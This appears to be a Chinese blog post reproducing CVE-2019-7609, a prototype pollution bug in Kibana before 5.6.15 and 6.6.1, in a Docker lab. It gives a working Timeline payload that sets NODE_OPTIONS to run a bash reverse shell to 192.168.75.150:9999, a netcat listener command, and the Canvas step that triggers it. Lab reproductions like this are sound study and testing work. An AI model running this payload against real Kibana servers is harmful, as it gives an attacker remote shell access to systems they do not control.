




# Kibana 原型链污染导致任意代码执行漏洞 (CVE-2019-7609) - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16281802.html`](https://www.cnblogs.com/NoCirc1e/p/16281802.html)

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其 5.6.15 和 6.6.1 之前的版本中存在一处原型链污染漏洞，利用这个漏洞我们可以在目标服务器上执行任意 JavaScript 代码。

参考链接：

*   [`nvd.nist.gov/vuln/detail/CVE-2019-7609`](https://nvd.nist.gov/vuln/detail/CVE-2019-7609)
*   [`research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/`](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
*   [`slides.com/securitymb/prototype-pollution-in-kibana/#/4`](https://slides.com/securitymb/prototype-pollution-in-kibana/#/4)

## 漏洞环境

启动环境前，需要先在 Docker 主机上执行如下命令，修改`vm.max_map_count`配置为 262144：

```
sysctl -w vm.max_map_count=262144
```

之后，执行如下命令启动 Kibana 6.5.4 和 Elasticsearch 6.8.6：

```
docker-compose up -d
```



环境启动后，访问`http://your-ip:5601`即可看到 Kibana 页面。



## 漏洞复现

原型链污染发生在“Timeline”页面，我们填入如下 Payload：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/192.168.75.150/9999 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ') 
```

开启监听

```
nc -lvvp 9999
```

输入 Payload



访问 Canvas 模块触发漏洞

反弹 Shell 成功

